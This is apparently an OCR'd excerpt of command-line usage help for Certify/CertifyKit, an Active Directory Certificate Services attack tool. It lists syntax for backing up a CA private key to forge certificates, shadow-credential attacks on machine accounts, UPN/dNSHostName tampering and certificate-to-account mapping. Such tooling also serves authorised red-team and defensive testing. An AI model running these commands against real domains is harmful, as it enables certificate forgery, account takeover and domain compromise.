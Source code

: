 ```shell
    CertifyKit.exe list /certificate:THUMBPRINT/FILE/BASE64 [/outfile:exportfile.pfx | /base64] /password:CERT_PASSWORD /encpass:ENC_PASSWORD

  Import a certificate from file or base64 string with password to store My,CurrentUser by default

    CertifyKit.exe list /certificate:FILE/BASE64 [/outfile:exportfile.pfx | /base64] /password:CERT_PASSWORD [/storename:X | /sotrelocation:Y]

  Build chain of a certificate from store My,CurrentUser by default specifying thumbprint:

    CertifyKit.exe list /certificate:THUMBPRINT [/storename:X | /sotrelocation:Y] /chain

  Remove a certificate from store My,CurrentUser by default specifying thumbprint:

    CertifyKit.exe list /certificate:THUMBPRINT /remove [/storename:X | /sotrelocation:Y]


  Backup private key for a Certificate Authority's CA certificate on CA server, which could be used to forge AD CS certificate:

    Certify list /golden [/outfile:C:\backup.pfx | /base64] [/encpass:ENC_PASSWORD]


  Create or remove a machine account:

    Certify account /machine:MACHINE [/createpc | /removepc] [/domain:domain.local | /ldapserver:server.domain.local]

  Alter dNSHostName of a machine account or alter userPrincipalName of a user/machine account or clear userPrincipalName of a user account:

    Certify account [/machine:MACHINE | /user:USER] [/dns:new.domain.local | /upn:new@domain.local] [clear]

  Alter or query attribute of an account:

    Certify account [/machine:MACHINE | /user:USER] /attribute:ATTRIBUTE [/query | /value:VALUE | /clear | /remove:ID] [/append]


  Shadow credentail attack on a machine account and output self signed certificate as base64 string by default:

    Certify account /machine:MACHINE /shadow [/outfile:C:\xxx.pfx | /install] [/encpass:ENC_PASSWORD]

  Query or Remove or clear KeyCredentialLink on a user account:

    Certify account /user:USER /shadow [/list | /remove:ID | /clear]


  Map a certificate to a machine account for the purpose of authentication:

    Certify account /machine:MACHINE /altsecid /certificate:THUMBPRINT/FILE/BASE64 [/password:CERT_PASSWORD]

  Query or Remove or clear altSecurityIdentities on a user account:

    Certify account /user:USER /altsecid [/list | /remove:ID | /clear]
```
